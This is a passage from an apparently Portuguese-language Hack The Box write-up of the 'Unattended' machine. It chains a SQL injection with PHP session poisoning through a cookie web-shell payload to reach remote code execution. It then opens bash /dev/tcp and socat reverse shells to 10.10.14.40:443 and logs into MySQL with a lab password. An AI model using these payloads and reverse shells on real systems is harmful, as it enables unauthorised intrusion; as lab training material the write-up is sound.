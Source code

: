 Verificando na requisição, temos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-unattended/U_ng15.png)

Caceta! Temos RCE!

Bom, vamos lá... eu tentei fazer um shell em portas altas, e não deram certo, fiquei interessado em saber pq não deu, então vamos verificar as regras de firewall iptables que está habilitado

`GET /index.php?cmd=cat+/etc/iptables/rules.v4&id=587'+union+select+"1'+union+select+'/var/lib/php/sessions/sess_ju4t3m307i7ua3bof9cfcgdoq1'--+-"--+- HTTP/1.1`

e

`Cookie: PHPSESSID=ju4t3m307i7ua3bof9cfcgdoq1; INJECTION=<?php system($_GET['cmd']) ?>`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-unattended/U_ng16.png)

Verificando as regras... temos `-A INPUT -i ens33 -p tcp -m multiport --dports 80,443 -j ACCEPT`

Ou seja, só vai aceitar requisições nas portas 80 e 443, interessante... Então montamos nosso reverse shell pra ser enviado, e pegamos uma reverse shell

`bash -c 'bash -i >& /dev/tcp/10.10.14.40/443 0>&1'`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-unattended/U_ng17.png)

Infelizmente não temos python na máquina, para poder fazer o upgrade pra um shell interativo, mas temos `socat`

`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.40:443`

Pronto, agora com um shell interativo

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-unattended/U_ng18.png)

# Escalação de Privilégio (www-data -> Guly)

Essa escalação eu digo que não foi tão simples de se conseguir/entender o que estava acontecendo, realmente fora da caixa pra mim, mas vamos lá

Não sei se você se lembra mas conseguimos antes uma conta e senha do mysql dessa máquina, então, vamos nos conectar nela

`mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-unattended/U_ng19.png)

Entramos na database `neddy`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-unattended/U_ng20.png)

Checamos a TABLE `config`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-unattended/U_ng21.png)

Esse campo 86 nos chamou atenção

